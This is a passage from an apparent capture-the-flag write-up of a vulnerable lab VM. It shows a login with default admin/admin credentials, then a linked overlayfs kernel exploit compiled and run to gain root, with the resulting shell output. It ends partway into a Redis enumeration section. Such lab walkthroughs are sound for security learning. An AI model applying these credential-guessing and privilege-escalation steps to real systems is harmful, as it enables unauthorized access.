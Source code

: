 Here I tried connecting with the credentials I knew, and got in with the admin/admin pair. I searched for a privilege escalation exploit then, and reading /etc/issue was helpful in that regard:

``` 
cat /etc/issue
Ubuntu 14.04.3 LTS \n \l
```

Found the [overlayfs applicable exploit](https://www.exploit-db.com/exploits/39166/), downloaded, compiled and boom:

``` 
admin@canyoupwnme:~$ ./overlayfs 
root@canyoupwnme:~# id
uid=0(root) gid=1002(admin) groups=0(root),1002(admin)
root@canyoupwnme:~# whoami
root
```

## Redis

``` 
PORT      STATE SERVICE     VERSION
6379/tcp  open  redis       Redis key-value store 3.0.7
```

Redis is something you don't get very often on boot2roots, so this was definitely interesting! First, what is [Redis](https://redis.io/topics/introduction)?

> Redis is an open source (BSD licensed), in-memory data structure store, used as a database, cache and message 
> broker. It supports data structures such as strings, hashes, lists, sets, sorted sets with range queries, bitmaps, 
> hyperloglogs and geospatial indexes with radius queries. Redis has built-in replication, Lua scripting, LRU 
> eviction, transactions and different levels of on-disk persistence, and provides high availability via Redis 
> Sentinel and automatic partitioning with Redis Cluster

The Redis instance can be accessed with the *redis-cli* tool. I had to install the *redis-tools* package to get it.

``` 
redis-cli -h
redis-cli 4.0.2

Usage: redis-cli [OPTIONS] [cmd [arg [arg ...]]]
  -h <hostname>      Server hostname (default: 127.0.0.1).
  -p <port>          Server port (default: 6379).
  -s <socket>        Server socket (overrides hostname and port).
  -a <password>      Password to use when connecting to the server.
  -r <repeat>        Execute specified command N times.
  -i <interval>      When -r is used, waits <interval> seconds per command.
                     It is possible to specify sub-second times like -i 0.1.
  -n <db>            Database number.
  -x                 Read last argument from STDIN.
  -d <delimiter>     Multi-bulk delimiter in for raw formatting (default: \n).
  -c                 Enable cluster mode (follow -ASK and -MOVED redirections).
  --raw              Use raw formatting for replies (default when STDOUT is
                     not a tty).
  --no-raw           Force formatted output even when STDOUT is not a tty.
  --csv              Output in CSV format.
  --stat             Print rolling stats about server: mem, clients, ...
  --latency          Enter a special mode continuously sampling latency.
                     If you use this mode in an interactive session it runs
                     forever displaying real-time stats. Otherwise if --raw or
                     --csv is specified, or if you redirect the output to a non
                     TTY, it samples the latency for 1 second (you can use
```